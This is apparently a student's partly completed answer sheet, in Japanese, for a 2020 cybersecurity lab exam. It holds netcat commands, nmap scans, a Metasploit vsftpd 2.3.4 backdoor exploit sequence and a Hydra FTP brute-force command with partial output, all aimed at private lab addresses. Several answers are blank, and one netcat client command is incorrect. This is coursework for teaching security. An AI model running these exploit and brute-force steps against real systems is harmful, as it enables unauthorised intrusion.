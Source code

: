 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### 1.
#### サーバー側コマンド

```sh
# nc -l -p 5555

```
#### クライアント側コマンド

```sh
# nc -l 192.168.33.10 5555

```
### 1.
#### サーバー側コマンド

```sh
# nc -l 5555 < n21021.md

```
#### クライアント側コマンド

```sh
# nc 192.168.33.10 > n21021.md

```

## 問2 [Password Crack]

### 1.
```md
<!--  ここに回答を記述 -->

```

### 2.
```md
<!--  ここに回答を記述 -->

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
# nmap -sP 192.168.33.0-127

```

### 2. version scan

```sh
# nmap -sV -p- 192.168.33.11

```

## 問4 [Metasploit Framework]

```sh
1 msfconsole
2 use exploit/unix/ftp/vsftpd_234_backdoor
3 show options
4 set RHOST 192.168.33.11
5 run
```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
# Hydra -L user.list -P passwd.list 192.168.33.11 ftp

```

### 2. 解析結果

```sh
# 
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-02-24 02:59:31
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 39061 login tries (l:11/p:3551), ~2442 tries per task
[DATA] attacking ftp://192.168.33.5:21/
[STATUS] 157.00 tries/min, 157 tries in 00:01h, 38937 to do in 04:09h, 16 active
[STATUS] 153.67 tries/min, 461 tries in 00:03h, 38633 to do in 04:12h, 16 active
[STATUS] 150.43 tries/min, 1053 tries in 00:07h, 38041 to do in 04:13h, 16 active


```

## 問6 [Packet Sniffer]

```sh
# ここに回答を記述

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
<!-- 30点  -->

```

## 問9 [講義の感想]

1.

```md
<!-- kaliとMetasploitの通信
ncコマンドでのチャット
nmapコマンドでIPのスキャン
パスワードの解析  -->

```

2.
```md
<!-- 教科書やネットなどを見ないとやり方がおぼつかないところがまだあるため、何も見ずにできるようもっと勉強していきたいと思った。  -->

```
